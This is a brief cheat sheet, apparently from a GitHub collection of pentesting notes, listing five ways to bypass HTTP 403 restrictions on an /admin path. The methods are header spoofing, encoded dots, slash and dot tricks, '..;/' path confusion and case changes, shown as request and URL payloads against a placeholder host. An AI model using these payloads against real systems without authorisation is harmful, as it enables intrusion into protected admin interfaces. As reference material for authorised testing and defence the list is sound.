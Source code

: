 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
https://github.com/yunemse48/403bypasser


2. Appending **%2e** after the first slash
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
    http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)

